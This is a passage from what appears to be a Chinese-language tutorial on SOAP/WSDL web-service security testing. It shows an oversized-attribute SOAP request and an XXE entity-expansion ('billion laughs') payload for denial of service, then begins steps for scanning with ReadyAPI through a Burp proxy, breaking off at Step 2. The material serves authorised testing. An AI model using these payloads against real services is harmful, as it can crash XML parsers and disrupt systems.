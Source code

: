 针对元素个数的 DoS 攻击的示例 (也可以通过重复某个特定元素达到同样效果)：

```bash
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
        <soapenv:Body>
        <TEST>
            <BGA attribute1="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA" attribute2="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA" attribute3="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA"></BGA>
        </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```

当然存在 XXE 时就可以进行 XXE DoS 攻击：

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE bga [
    <!ELEMENT ANY >
    <!ENTITY bga1 "bga1">
    <!ENTITY bga2 "&bga1;&bga1;&bga1;&bga1;&bga1;&bga1;">
    <!ENTITY bga3 "&bga2;&bga2;&bga2;&bga2;&bga2;&bga2;">
    <!ENTITY bga4 "&bga3;&bga3;&bga3;&bga3;&bga3;&bga3;">
    <!ENTITY bga5 "&bga4;&bga4;&bga4;&bga4;&bga4;&bga4;">
    <!ENTITY bga6 "&bga5;&bga5;&bga5;&bga5;&bga5;&bga5;">
   ]>
<bga>&bga6;</bga>
```

## 漏洞扫描

很多人可能会说这里的接口有没有可以进行一次性扫描检测的方法呢？当然有，作为甲方安全人员或者授权的安全评估人员我们可以借助 ReadyAPI([https://www.soapui.org/](https://www.soapui.org/) ) 进行快速的安全扫描测试评估，这里对步骤进行简单介绍，更加细节的部分可以自行进行深入，工具部分不多做演示介绍

Step 1：为了进一步观察这里的测试时怎么进行的，我们第一步先设置 Burp 代理，在 File->Preferences->Proxy 中设置 Burp 代理服务器地址  
[![](assets/1706957905-a6e27f5787387f6069866a1179d34cb6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094430-9bc14666-c16c-1.png)  
Step 2：新建安全测试任务，选择 WSDL 相关的 API 模块定义
